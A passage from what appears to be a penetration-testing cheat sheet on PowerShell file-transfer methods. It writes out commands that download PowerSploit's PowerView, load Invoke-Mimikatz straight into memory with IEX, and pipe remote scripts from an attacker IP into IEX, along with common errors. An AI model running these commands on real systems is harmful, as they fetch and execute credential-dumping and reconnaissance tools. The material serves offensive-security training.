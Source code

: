 ```bash
```
3. **Check Hash**
```bash
md5sum hosts
```

### Powershell Web Downloads
 In any version of **PowerShell**, the **System.Net.WebClient** class can be used to download a file over `HTTP, HTTPS or FTP`. The following [table](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) describes WebClient methods for downloading data from a resource.
 1. **File Download**
```powershell
#Syntax: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\carnifex17> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

#Syntax: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\carnifex17> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
```
 2. **PowerShell DownloadString - Fileless Method**. Fileless attacks work by using some operationg system functions to download the payload and execute it directly. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the Invoke-Expression cmdlet or the alias **IEX**
```powershell
PS C:\carnifex17> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
 ```
 3. **PowerShell Invoke-WebRequest**
```powershell
PS C:\carnifex17> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
#### Common Errors
- **Internet Explorer Error**
```powershell
PS C:\carnifex17> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\carnifex17> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
- **SSL/TLS Untrusted certificate error**
```powershell
PS C:\carnifex17> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
